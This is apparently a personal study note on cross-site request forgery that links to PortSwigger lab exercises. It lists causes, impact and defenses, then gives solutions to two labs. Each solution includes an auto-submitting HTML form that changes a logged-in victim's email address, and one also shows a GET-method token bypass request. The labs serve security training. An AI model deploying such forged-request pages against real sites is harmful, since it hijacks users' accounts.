






# [CSRF](https://portswigger.net/web-security/csrf)

Causes and Conditions: 

- Applications rely solely on session cookies for authentication without verifying request origin
- Absence of anti-CSRF tokens or SameSite cookie attributes.
- 3 conditions: 
  - A relevant action: email change,...
  - Cookie-based session handling
  - No unpredictable request parameters: request to change password require the old one,...


Impact: 

- Unauthorized actions performed on behalf of authenticated users

- Potential account compromise, fund transfers, or data tampering

Categories: 

- 

Prevention:  

- Use SameSite=strict or SameSite=lax cookie attributes.
- Implement anti-CSRF tokens in state-changing requests.
- Verify the origin or Referer headers server-side.

Common Payloads through Labs Completion:

## - Apprentice

### [Lab 1: CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

- Log in using the given cred:



- Using function auto generate CSRF POC of Burpsuite pro: 



```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa9008403583938804017ea00ce00dd.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="n33r9&#64;hacker4&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- Submit it to the exploit server: tab `body` ` and get the result of email change: 



=> Change email successfully!

## - Practitioner

### [Lab 1: CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)



- Send request to repeater and change csrf parameter and observe the result: 



- Change request method: GET

`GET /my-account/change-email?email=n33r9%40hacker3.com&csrf=n33r9`


=> HTTP/2 302 Found

- Gen new CSRF payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0c00d80307391e8053354f00840064.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="n33r9&#64;hacker3&#46;com" />
      <input type="hidden" name="csrf" value="n33r9" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

 

